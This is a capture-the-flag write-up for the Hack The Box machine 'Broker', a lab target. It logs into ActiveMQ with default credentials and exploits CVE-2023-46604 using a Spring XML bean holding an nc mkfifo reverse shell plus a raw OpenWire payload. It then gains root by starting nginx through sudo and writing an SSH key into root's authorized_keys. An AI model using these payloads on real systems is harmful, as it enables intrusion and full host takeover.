


+++
title = "Broker"
date = "2024-01-23"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2023-11-09

**Created by**: [TheCyberGeek](https://app.hackthebox.com/users/114053)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.243`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Broker using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.11.243" -p-
```

```
<SNIP>
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1883/tcp  open  mqtt
5672/tcp  open  amqp
8161/tcp  open  patrol-snmp
40999/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.11.243" --top-ports "500"
```

```
<SNIP>
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.11.243" -p "22,80,1883,5672,8161" -sV
```

```
<SNIP>
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
1883/tcp open  mqtt
5672/tcp open  amqp?
8161/tcp open  http    Jetty 9.4.39.v20210325
<SNIP>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Let's do the same for the UDP port.

```sh
❯ nmap -sU "10.10.11.243" -p "68" -sV
```

```
<SNIP>
PORT   STATE         SERVICE VERSION
68/udp open|filtered dhcpc
<SNIP>
```

Alright, so `nmap` managed to determine that Broker is running Linux, and the
version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.11.243" -p "22,80,1883,5672,8161" -sC
```

```
<SNIP>
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1883/tcp open  mqtt
5672/tcp open  amqp
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
8161/tcp open  patrol-snmp
<SNIP>
```

Let's also run them on the UDP service.

```sh
❯ nmap -sU "10.10.11.243" -p "68" -sC
```

```
<SNIP>
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
<SNIP>
```

The `http-auth` script reveals that the Nginx server asks for authentication,
using the 'Basic' scheme with a realm set to 'ActiveMQRealm'.

Predictably, the `http-title` script detected that the website's homepage title
is 'Error 401 Unauthorized'.

## Services enumeration

### ActiveMQ

#### Fingerprinting

Let's use `whatweb` to fingerprint Nginx's homepage.

```sh
❯ whatweb -a3 "http://10.10.11.243/" -v
```

```
WhatWeb report for http://10.10.11.243/
Status    : 401 Unauthorized
Title     : Error 401 Unauthorized
IP        : 10.10.11.243
Country   : RESERVED, ZZ

Summary   : HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], nginx[1.18.0], PoweredBy[Jetty://], WWW-Authenticate[ActiveMQRealm][basic]

Detected Plugins:
[ HTTPServer ]
        HTTP server header string. This plugin also attempts to 
        identify the operating system from the server header. 

        OS           : Ubuntu Linux
        String       : nginx/1.18.0 (Ubuntu) (from server string)

[ PoweredBy ]
        This plugin identifies instances of 'Powered by x' text and 
        attempts to extract the value for x. 

        String       : Jetty://

[ WWW-Authenticate ]
        This plugin identifies the WWW-Authenticate HTTP header and 
        extracts the authentication method and realm. 

        Module       : basic
        String       : ActiveMQRealm

[ nginx ]
        Nginx (Engine-X) is a free, open-source, high-performance 
        HTTP server and reverse proxy, as well as an IMAP/POP3 
        proxy server. 

        Version      : 1.18.0
        Website     : http://nginx.net/

HTTP Headers:
        HTTP/1.1 401 Unauthorized
        Server: nginx/1.18.0 (Ubuntu)
        Date: Sun, 04 Feb 2024 13:35:09 GMT
        Content-Type: text/html;charset=iso-8859-1
        Content-Length: 447
        Connection: close
        WWW-Authenticate: basic realm="ActiveMQRealm"
        Cache-Control: must-revalidate,no-cache,no-store
```

We're indeed asked to authenticate.

The only information we have at our disposal is that the realm is
'ActiveMQRealm'... Let's search online for more information about that.

> Apache ActiveMQ is an open source message broker written in Java together with
> a full Java Message Service (JMS) client. It provides "Enterprise Features"
> which in this case means fostering the communication from more than one client
> or server
>
> — [Wikipedia](https://en.wikipedia.org/wiki/Apache_ActiveMQ)

If we search online for Active MQ's default credentials, we find a
[documentation page](https://activemq.apache.org/getting-started) from
[ActiveMQ](https://activemq.apache.org/) mentioning that it's `admin`:`admin`.

And if we try them... they work!

```sh
❯ whatweb -a3 -u "admin:admin" "http://10.10.11.243/" -v
```

```
WhatWeb report for http://10.10.11.243/
Status    : 302 Found
Title     : <None>
IP        : 10.10.11.243
Country   : RESERVED, ZZ

Summary   : HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], nginx[1.18.0], RedirectLocation[http://10.10.11.243/index.html], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]

Detected Plugins:
[ HTTPServer ]
        HTTP server header string. This plugin also attempts to 
        identify the operating system from the server header. 

        OS           : Ubuntu Linux
        String       : nginx/1.18.0 (Ubuntu) (from server string)

[ RedirectLocation ]
        HTTP Server string location. used with http-status 301 and 
        302 

        String       : http://10.10.11.243/index.html (from location)

[ UncommonHeaders ]
        Uncommon HTTP server headers. The blacklist includes all 
        the standard headers and many non standard but common ones. 
        Interesting but fairly common headers should have their own 
        plugins, eg. x-powered-by, server and x-aspnet-version. 
        Info about headers can be found at www.http-stats.com 

        String       : x-content-type-options (from headers)

[ X-Frame-Options ]
        This plugin retrieves the X-Frame-Options value from the 
        HTTP header. - More Info: 
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : SAMEORIGIN

[ X-XSS-Protection ]
        This plugin retrieves the X-XSS-Protection value from the 
        HTTP header. - More Info: 
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : 1; mode=block

[ nginx ]
        Nginx (Engine-X) is a free, open-source, high-performance 
        HTTP server and reverse proxy, as well as an IMAP/POP3 
        proxy server. 

        Version      : 1.18.0
        Website     : http://nginx.net/

HTTP Headers:
        HTTP/1.1 302 Found
        Server: nginx/1.18.0 (Ubuntu)
        Date: Sun, 04 Feb 2024 13:35:46 GMT
        Content-Length: 0
        Location: http://10.10.11.243/index.html
        Connection: close
        X-FRAME-OPTIONS: SAMEORIGIN
        X-XSS-Protection: 1; mode=block
        X-Content-Type-Options: nosniff

WhatWeb report for http://10.10.11.243/index.html
Status    : 200 OK
Title     : Apache ActiveMQ
IP        : 10.10.11.243
Country   : RESERVED, ZZ

Summary   : HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], nginx[1.18.0], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]

Detected Plugins:
[ HTTPServer ]
        HTTP server header string. This plugin also attempts to 
        identify the operating system from the server header. 

        OS           : Ubuntu Linux
        String       : nginx/1.18.0 (Ubuntu) (from server string)

[ UncommonHeaders ]
        Uncommon HTTP server headers. The blacklist includes all 
        the standard headers and many non standard but common ones. 
        Interesting but fairly common headers should have their own 
        plugins, eg. x-powered-by, server and x-aspnet-version. 
        Info about headers can be found at www.http-stats.com 

        String       : x-content-type-options (from headers)

[ X-Frame-Options ]
        This plugin retrieves the X-Frame-Options value from the 
        HTTP header. - More Info: 
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : SAMEORIGIN

[ X-XSS-Protection ]
        This plugin retrieves the X-XSS-Protection value from the 
        HTTP header. - More Info: 
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : 1; mode=block

[ nginx ]
        Nginx (Engine-X) is a free, open-source, high-performance 
        HTTP server and reverse proxy, as well as an IMAP/POP3 
        proxy server. 

        Version      : 1.18.0
        Website     : http://nginx.net/

HTTP Headers:
        HTTP/1.1 200 OK
        Server: nginx/1.18.0 (Ubuntu)
        Date: Sun, 04 Feb 2024 13:35:47 GMT
        Content-Type: text/html
        Transfer-Encoding: chunked
        Connection: close
        X-FRAME-OPTIONS: SAMEORIGIN
        X-XSS-Protection: 1; mode=block
        X-Content-Type-Options: nosniff
        Last-Modified: Tue, 20 Apr 2021 06:16:30 GMT
        Content-Encoding: gzip
```

There's a redirection to `/index.html`.

#### Exploration

Let's browse to `http://10.10.11.243/`, and let's authenticate.



It's indeed an ActiveMQ application.

The homepage has a link to `/admin`. If we click on it, we're served this web page:



This page leaks that the ActiveMQ version is `5.15.5`.

I browsed this application to see if I could find functionalities I could abuse
to get a foothold, but I found nothing.

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for `ActiveMQ 5.15.5`, we
find nothing. However, if we search online, we find the
[CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604).

## Foothold ([CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604))

[CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604) is a
vulnerability in the Java OpenWire protocol marshaller of ActiveMQ. The
vulnerability lies in the way that the OpenWire protocol marshaller handles
serialized class types. When a client sends a message to the broker, the broker
unmarshals the message, which means that it converts the serialized data into
Java objects. During this unmarshalling process, the broker does not properly
validate the class types of the objects it creates. This allows an attacker to
send a message that contains a serialized object with a malicious class type.
When the broker unmarshals this object, it will try to create an instance of the
malicious class, which gives the attacker RCE.

This vulnerability affects all versions before `5.15.16`, versions `5.18.0`
through to `5.18.2`, `5.17.0` through to `5.17.5` and `5.16.0` through to
`5.16.6`.

### Preparation

The Metasploit module `exploit/multi/misc/apache_activemq_rce_cve_2023_46604`
can be used to exploit this vulnerability, but it's not too hard to do manually.

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the 'nc mkfifo' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll use the HTML encoded version of this payload to create a `revshell.xml`
file:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2&gt;&amp;1|nc 10.10.14.4 9001 &gt;/tmp/f</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

I'll place it in `/workspace/server`, which is accessible over the Internet.

Therefore, according to
[this GitHub PoC](https://github.com/evkl1d/CVE-2023-46604), the payload that we
should send to the port `61616` in order to download and execute `revshell.xml`
is:

```
\x00\x00\x00q\x1f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x01\x00Borg.springframework.context.support.ClassPathXmlApplicationContext\x01\x00\x1ehttp://10.10.14.4/revshell.xml
```

I'll save it as the `COMMAND` shell variable.

### Exploitation

Let's send a request to Broker with this command.

```sh
❯ echo -ne $COMMAND | nc -w "1" "10.10.11.243" "61616"
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.243] 53694
<SNIP>
activemq@broker:/opt/apache-activemq-5.15.15/bin$
```

It caught the reverse shell!

### Stabilizing the shell

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key and I'll add the corresponding key to `authorized_keys`.
Finally I'll connect over SSH to Broker. This way, I'll have a much more stable
shell.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `activemq`.

### Architecture

What is Broker's architecture?

```sh
activemq@broker:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Broker is using.

```sh
activemq@broker:~$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=22.04
DISTRIB_CODENAME=jammy
DISTRIB_DESCRIPTION="Ubuntu 22.04.3 LTS"
```

Okay, so it's Ubuntu 20.04.

### Kernel

Let's find the kernel version of Broker.

```sh
activemq@broker:~$ uname -r
```

```
5.15.0-88-generic
```

It's `5.15.0`.

### Users

Let's enumerate all users.

```sh
activemq@broker:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
activemq
root
```

There's `activemq` (us) and `root`.

### Groups

Let's enumerate all groups.

```sh
activemq@broker:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
activemq
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
fwupd-refresh
games
gnats
input
irc
kmem
kvm
landscape
_laurel
list
lp
lxd
mail
man
messagebus
netdev
news
nogroup
operator
plugdev
proxy
render
root
sasl
sgx
shadow
src
_ssh
staff
sudo
sys
syslog
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tcpdump
tss
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

### NICs

Let's gather the list of connected NICs.

```sh
activemq@broker:~$ ifconfig
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.243  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:9989  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:9989  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:99:89  txqueuelen 1000  (Ethernet)
        RX packets 204  bytes 29601 (29.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 246  bytes 36020 (36.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 254  bytes 18110 (18.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 254  bytes 18110 (18.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Broker's hostname?

```sh
activemq@broker:~$ hostname
```

```
broker
```

Yeah I know, very surprising.

### Flags

If we check our home folder, we find the user flag.

```sh
activemq@broker:~$ cat "/home/activemq/user.txt"
```

```
87a7f2bddcff2336ce2fbee428eb67cf
```

### Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
activemq@broker:~$ sudo -l
```

```
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

We do! We can execute the `/usr/sbin/nginx` binary as `root`.

## Privilege escalation (Sudo permissions)

I searched [GTFOBins](https://gtfobins.github.io/) for `nginx` and found
nothing.

However, it's still possible to create an Nginx config to exploit our sudo
permissions.

### Preparation

Let's create a config file to serve the whole filesystem and to allow PUT
requests to upload custom files, while being `root`:

```
user root;
events {
    worker_connections 512;
}
http {
    server {
        listen 8888;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

I'll save it as `privesc.conf`.

Then, I'll start a Nginx web server with this config.

```sh
activemq@broker:~$ sudo "/usr/sbin/nginx" -c "/tmp/privesc.conf"
```

Now that the web server is running with elevated rights, we have access to the
whole filesystem, and we can upload whatever we want!

### Exploitation

We could just retrieve the root flag, but let's obtain a reverse shell for good
measure.

We can access and upload any files, however we can't execute them. Luckily, SSH
is enabled on this box, so we simply have to generate keys, add the public key
to `/root/.ssh/authorized_keys`, and are able to authenticate!

```sh
activemq@broker:~$ curl "http://127.0.0.1:8888/root/.ssh/authorized_keys" -X "PUT" -d "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPOKuV2uc+Fpm/vSwZpu0fcDN0fMd+gHvRLW+aUG/h8n"
```

Now we can use SSH to get a shell as `root`!

## Getting a lay of the land

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@broker:~# cat "/root/root.txt"
```

```
248309989e26c90495e6dd74fe9953d7
```

# Afterwords


That's it for this box! 🎉

I rated both the user and root flags as 'Very easy' to obtain. The foothold was
very easy to find but cumbersome to exploit by hand. The privilege escalation
only required proper enumeration to identify, but I had to do a bit of research
to find a way to take advantage of it.

Thanks for reading!
